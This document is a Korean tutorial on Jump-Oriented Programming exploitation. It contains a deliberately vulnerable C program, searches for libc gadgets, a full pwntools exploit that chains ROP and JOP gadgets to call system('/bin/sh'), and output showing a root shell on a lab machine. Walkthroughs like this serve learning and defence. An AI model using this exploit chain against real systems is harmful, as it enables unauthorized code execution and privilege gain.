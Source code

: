 ## **Concept**

OP는 JMP 명령을 사용해 프로그램 흐름을 제어하는 Exploit 기술이다.  
JOP Gadget은 "Exploit에 필요한 Code + JMP 명령어"이다.  
JOP는 여러개의 Gadget들을 실행시키기 위해 별도의 Gadget과 구조가 필요하다. 

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o jop jop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
  
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

72개 이상의 문자를 입력하면 Return Address를 덮어쓸 수 있다.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3b0:	0x4141414141414141	0x000000000040070a
```

#### **Exploit Method**
1. ROP Gadget을 이용하여 rax에 system() 함수 주소 저장
1. JOP Gadget을 이용하여 RDI 레지스터에 "/bin/sh" 저장 후 "jmp rax" 명령어로 system() 함수 호출

#### **Find Gadget**

```
root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 1 | grep "pop rax ; ret"
0x00033544: pop rax ; ret  ;  (1 found)
0x0003a727: pop rax ; ret  ;  (1 found)
0x0003a728: pop rax ; ret  ;  (1 found)
0x0003a7f7: pop rax ; ret  ;  (1 found)
0x0003a7f8: pop rax ; ret  ;  (1 found)
0x0003a8a0: pop rax ; ret  ;  (1 found)
0x0003a8a1: pop rax ; ret  ;  (1 found)
0x000abc07: pop rax ; ret  ;  (1 found)
0x00106272: pop rax ; ret  ;  (1 found)
0x00106273: pop rax ; ret  ;  (1 found)
0x001a1448: pop rax ; ret  ;  (1 found)
0x000caabc: pop rax ; retn 0x002F ;  (1 found)

root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 2 | grep "pop rdi ; jmp rax"
0x00104052: pop rdi ; jmp rax ;  (1 found)
```

## **Exploit Code**
```python
from pwn import *

p = process('./jop')
p.recvline()
printf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
system_addr = libBase + 0x45390
binsh_addr = libBase + 0x18cd57
pop_rax_ret = libBase + 0x33544
pop_rdi_jmp_rax = libBase + 0x104052

print('printf_addr: '+str(hex(printf_addr)))
print('libBase_addr: '+str(hex(libBase)))
print('system_addr: '+str(hex(system_addr)))
print('/bin/sh_addr: '+str(hex(binsh_addr)))
print('pop rax ; ret Gadget: '+str(hex(pop_rax_ret)))
print('pop rdi ; jmp rax Gadget: '+str(hex(pop_rdi_jmp_rax)))

payload = 'A'*72
payload += p64(pop_rax_ret)
payload += p64(system_addr)
payload += p64(pop_rdi_jmp_rax)
payload += p64(binsh_addr)


p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/jop# python exploit.py 
[+] Starting local process './jop': pid 2257
printf_addr: 0x7fc07b8a5800
libBase_addr: 0x7fc07b850000
system_addr: 0x7fc07b895390
/bin/sh_addr: 0x7fc07b9dcd57
pop rax ; ret Gadget: 0x7fc07b883544
pop rdi ; jmp rax Gadget: 0x7fc07b954052
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/jop
```

**References**  
[https://www.lazenca.net/pages/viewpage.action?pageId=16810290](https://www.lazenca.net/pages/viewpage.action?pageId=16810290)